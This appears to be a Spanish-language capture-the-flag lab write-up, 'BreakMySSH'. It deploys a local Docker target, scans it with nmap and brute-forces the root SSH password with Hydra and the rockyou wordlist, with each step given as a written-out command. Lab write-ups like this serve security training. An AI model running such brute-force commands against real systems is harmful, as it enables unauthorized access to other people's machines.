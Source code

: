 # Laboratorio 3: BreakMySSH

## Descripción
Este laboratorio consiste en explotar una vulnerabilidad en el servicio SSH mediante un ataque de fuerza bruta para obtener acceso a la máquina objetivo.

## Pasos para la resolución

1. **Despliegue del laboratorio:**
   - Ejecutar el comando: `sudo bash auto_deploy.sh breakmyssh.tar`.
  
     ![image](https://github.com/user-attachments/assets/e09b75ce-7691-40a3-af3d-8362621d145b)

  

2. **Reconocimiento:**
   - Verificar la conectividad con la máquina objetivo: `ping 172.17.0.2`.

   ![image](https://github.com/user-attachments/assets/4605ad59-9640-4b5d-97a2-bbed7480ab86)

   - Escanear la máquina con Nmap: `nmap -sV 172.17.0.2`.
  
     ![image](https://github.com/user-attachments/assets/be93d9fb-7c28-4f75-99b7-0d49be246d03)


3. **Ataque de fuerza bruta con Hydra:**
   - Ejecutar el ataque: `hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2`.

     ![image](https://github.com/user-attachments/assets/bbf8295d-2461-4b96-a51d-8067048e9a95)


4. **Acceso SSH:**
   - Conectarse a la máquina: `ssh root@172.17.0.2`.
   - Introducir la contraseña obtenida en el paso anterior.
     
     ![image](https://github.com/user-attachments/assets/e1da8c10-770b-4851-8e4b-36980b0bcc5c)

     


## Conclusión
Se logró obtener acceso a la máquina mediante un ataque de fuerza bruta al servicio SSH.
